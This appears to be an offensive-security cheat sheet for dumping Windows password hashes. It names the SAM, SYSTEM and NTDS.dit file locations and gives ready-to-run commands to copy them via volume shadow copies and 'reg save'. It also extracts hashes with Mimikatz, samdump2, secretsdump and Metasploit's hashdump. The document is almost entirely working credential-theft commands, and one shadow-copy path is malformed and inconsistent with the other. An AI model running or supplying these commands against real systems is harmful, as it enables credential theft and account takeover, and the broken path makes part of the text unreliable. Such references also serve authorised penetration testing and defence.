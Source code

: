 ## Extract Hashes

## Files Location

```
%SystemRoot%\System32\config\SAM # SAM File
%SystemRoot%\System32\config\SYSTEM # SYSTEM File
%SystemRoot%\Windows\NTDS\NTDS.dit # NTDS File
```

## Obtaining Files
### Shadow Copy
```
vssadmin create shadow /for=C:
copy \\?GLOBALROOT\Device\Harddisk\VolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\
vssadmin delete shadow /for=C:
```
### Regedit
```
reg save HKLM\SYSTEM C:\system.hiv
reg save HKLM\SAM C:\sam.hiv
```

## Dumping Hashes

### Mimikatz
Online
```
privilege::debug
token::elevate
lsadump::sam
```
Offline
```
lsadump::sam /system:<system_file> /sam:<sam_file>
```

### Samdump2
```
samdump2 <system_file> <sam_file>
```

### Secretsdump
```
secretsdump.py -ntds <NTDS file> -system <SYSTEM file> -hashes lmhash:nthash LOCAL -outputfile <file>
```

### Metasploit
```
hashdump # on meterpreter session
use post/windows/gather/hashdump
```
